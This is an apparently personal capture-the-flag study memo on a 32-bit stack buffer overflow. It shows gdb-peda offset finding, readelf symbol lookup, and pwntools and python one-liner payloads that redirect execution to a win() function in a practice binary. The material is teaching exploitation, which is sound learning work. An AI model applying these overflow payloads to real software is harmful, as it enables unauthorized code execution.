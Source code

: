 # Lesson
- BOF  
    - input with `python`  
    - `pattern_create` of `gbd-peda`  
    - find an address of a specific function with `pwntools`  

# Memo
1. get a byte size for BOF  
    - ghidra, gdb  
        ```console
        gdb-peda$ break *0x080492c3 # ret on vuln
        gdb-peda$ start
        gdb-peda$ pattern_create 50
        AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
        gdb-peda$ continue
        AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
        ...
        [------------------------------------stack-------------------------------------]
        0000| 0xffffcedc ("AFAAbA")
        0004| 0xffffcee0 --> 0xff004162
        0008| 0xffffcee4 --> 0xf7fbe66c --> 0xf7ffdba0 --> 0xf7fbe780 --> 0xf7ffda40 --> 0x0
        0012| 0xffffcee8 --> 0xf7fbeb10 --> 0xf7d92cc6 ("GLIBC_PRIVATE")
        ...
        gdb-peda$ pattern_offset AFAA
        AFAA found at offset: 44
        gdb-peda$ 
        ```
    or  
    - manual trial-and-error  
2. get a target address  
    - ghidra  
    - readelf  
        ```console
        $ readelf -s ./vuln | grep FUNC
        1: 00000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.0 (2)
        2: 00000000     0 FUNC    GLOBAL DEFAULT  UND gets@GLIBC_2.0 (2)
        3: 00000000     0 FUNC    GLOBAL DEFAULT  UND fgets@GLIBC_2.0 (2)
        ...
        49: 08049281    67 FUNC    GLOBAL DEFAULT   13 vuln
        ...
        63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
        ...
        72: 080492c4   122 FUNC    GLOBAL DEFAULT   13 main
        ...
        ```
        get "0x080491f6" of win()  

3. exploit on local machine  
    - pwntools  
        - ghidra  
            ```python
            payload += p32(0x80491f6)
            ```
         or  
        - library of pwntools  
            ```
            elf = ELF('./vuln')
            win_addr = elf.symbols['win']
            payload += p32(win_addr)
            ```
    - manual  
        - good case  
            ```console
            $ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
            ```
            test  
            ```console
            $ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | xxd
            00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000020: 4141 4141 4141 4141 4141 4141 f691 0408  AAAAAAAAAAAA....
            ```
        - bad case  
            ```console
            $ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
            ```
            test  
            ```console
            $ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | xxd
            00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000020: 4141 4141 4141 4141 4141 4141 c3b6 c291  AAAAAAAAAAAA....
            00000030: 0408 0a
            ```
            Byte stream is bad.

4. exploit on remote machine
    - pwntools  
        solver.py
    - socket  

